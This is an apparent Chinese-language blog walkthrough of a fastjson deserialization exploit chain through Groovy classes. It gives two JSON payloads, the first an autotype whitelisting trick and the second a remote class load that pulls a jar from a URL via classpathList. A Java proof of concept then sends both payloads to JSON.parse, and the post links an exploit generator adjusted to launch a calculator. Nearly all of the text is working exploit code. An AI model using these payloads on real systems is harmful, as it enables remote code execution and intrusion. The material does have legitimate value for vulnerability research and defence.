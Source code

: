
第一步将`org.codehaus.groovy.control.ProcessingUnit` 加入白名单：
```json
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
```
第二步远程类加载：
```json
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://127.0.0.1:8000/attack-1.jar"
    }
}
```
生成exp：[https://github.com/Lonely-night/fastjsonVul/](https://github.com/Lonely-night/fastjsonVul/)
![](https://img-blog.csdnimg.cn/f56bccc20c9b49dc82449f854a311899.png)

修改为windows的弹计算器，然后install即可，最后的exp：
```java
import com.alibaba.fastjson.JSON;
import java.io.IOException;

public class groovy {
    public static void main(String[] args) throws IOException {
        String poc1 = "{\n" +
            "    \"@type\":\"java.lang.Exception\",\n" +
            "    \"@type\":\"org.codehaus.groovy.control.CompilationFailedException\",\n" +
            "    \"unit\":{}\n" +
            "}";

        String poc2 = "{\n" +
            "    \"@type\":\"org.codehaus.groovy.control.ProcessingUnit\",\n" +
            "    \"@type\":\"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit\",\n" +
            "    \"config\":{\n" +
            "        \"@type\":\"org.codehaus.groovy.control.CompilerConfiguration\",\n" +
            "        \"classpathList\":\"http://127.0.0.1:8000/attack-1.jar\"\n" +
            "    }\n" +
            "}";

        System.out.println(poc1);
        System.out.println(poc2);
        try {
            JSON.parse(poc1);
        } catch (Exception e) {}
        JSON.parse(poc2);
    }
}
```
依次传入即可
![](https://img-blog.csdnimg.cn/c81c0a6cb2a84c33b967d2d3c2876548.png)

